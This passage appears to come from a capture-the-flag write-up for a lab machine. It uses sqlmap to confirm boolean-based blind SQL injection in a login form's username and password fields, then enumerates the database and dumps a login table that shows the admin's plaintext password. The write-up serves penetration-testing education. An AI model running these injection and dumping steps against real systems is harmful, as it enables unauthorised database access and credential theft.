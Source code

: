 ```
---
there were multiple injection points, please select the one to use for following injections:
[0] place: POST, parameter: username, type: Single quoted string (default)
[1] place: POST, parameter: password, type: Single quoted string
[q] Quit
> 0
[15:38:07] [INFO] testing MySQL
[15:38:07] [INFO] confirming MySQL
[15:38:07] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0
[15:38:07] [INFO] fetched data logged to text files under '/home/cyfun/.sqlmap/output/10.10.10.185'
```

Nice we have 2 injection points for our OR boolean-based blind SQL injection.

Now I'll some options to get more information:

- `--current-user` -> `theseus@localhost`
- `--current-db` -> `Magic`
- `--hostname` -> `ubuntu`
- `--is-dba` -> `False`
- `--tables -D Magic` -> `login`
- `-D Magic -T login --columns` ->
    ```
    +----------+--------------+
    | Column   | Type         |
    +----------+--------------+
    | id       | int(6)       |
    | password | varchar(100) |
    | username | varchar(50)  |
    +----------+--------------+
    ```
- `-D Magic -T login --dump` ->
    ```
    +------+----------+----------------+
    | id   | username | password       |
    +------+----------+----------------+
    | 1    | admin    | Th3s3usW4sK1ng |
    +------+----------+----------------+
    ```

Note: We could have done a dump directly but that would have been dirty and far
less efficient if there were more databases, tables, entries, etc. Also we
probably didn't needed to dump the password, we could have just bypass the
authentication. But the password may be reused somewhere else and there could
have been more stuff in the DB.

## File upload
